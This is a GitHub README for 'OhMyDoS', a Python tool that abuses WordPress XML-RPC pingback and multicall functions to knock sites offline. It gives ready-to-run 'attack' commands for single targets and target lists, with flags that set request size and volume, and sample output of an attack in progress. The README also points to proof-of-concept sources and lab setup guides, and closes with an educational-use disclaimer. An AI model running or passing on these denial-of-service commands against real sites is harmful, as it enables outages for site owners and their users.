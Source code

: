 <p align="center">
<img src="https://github.com/martinkubecka/OhMyDoS/blob/master/images/logo.png" alt="Logo">

# :no_entry: OhMyDoS


*OhMyDos* is a python console application abusing [Wordpress](https://wordpress.org/) API called [XML-RPC](https://codex.wordpress.org/XML-RPC_Support) and its functions `system.multicall` and `pingback.ping` with aim of Denial-of-Service. 

---
## :memo: Pre-requisites

- Python3.X ([download](https://www.python.org/downloads/release/python-3102/))
- library called `Random User Agents` ([source code](https://github.com/Luqman-Ud-Din/random_user_agent))
  - `$ pip install random_user_agent`

---
## :zap: Usage

*OhMyDos* provides 2 operation modes **check** and **attack** with ability to automate targeting of multiple Wordpress websites. 

### Attack Mode

#### Option Flags

Flags | Description
--|--
-e | Number of entries per one `system.multicall` (per one POST request)
-r | Number of POST request per target

#### Single Target

```
$ python3 OhMyDoS.py attack http://pingback.com http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Target : http://example.com
[>] Building 2000 pingback calls per one request
[>] Request size: 243.649 kB

[~] Starting attack, press CTRL+C to stop ...
[>] Requests sent : 159

[~] Attack interrupted by keypress
```

#### Multiple Targets

```
$ python3 OhMyDoS.py attack http://pingback.com targets.txt
```

### Check Mode

#### Single Target

```
$ python3 OhMyDoS.py check http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Checking if XML-RPC for http://example.com is enabled ...
[>] XML-RPC enabled.

```

#### Multiple Targets

```
$ python3 OhMyDoS.py check targets.txt
```

---
## :postbox: Resources

- WordPress DoS: Rediscovering an Unpatched 0-Day ([blog post](https://labs.arcturus.net/post/WordPress-DoS.html))
    - PoC : https://github.com/roddux/wordpress-dos-poc (this project is build on the top of this PoC)
- Exploiting the xmlrpc.php on all WordPress versions ([blog post](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/))

---
## :triangular_ruler: Testing Environment Set Up

- How To Install WordPress with LAMP ([link](https://github.com/martinkubecka/OhMyDoS/blob/master/guides/Wordpress_LAMP.md))
- WordPress in a Docker container ([link](https://github.com/martinkubecka/OhMyDoS/blob/master/guides/Wordpress_Docker.md))

---
## :warning: Disclaimer
  
  > This tool was developed solely for educational purposes only and the author of this tool is no way responsible for any misuse.

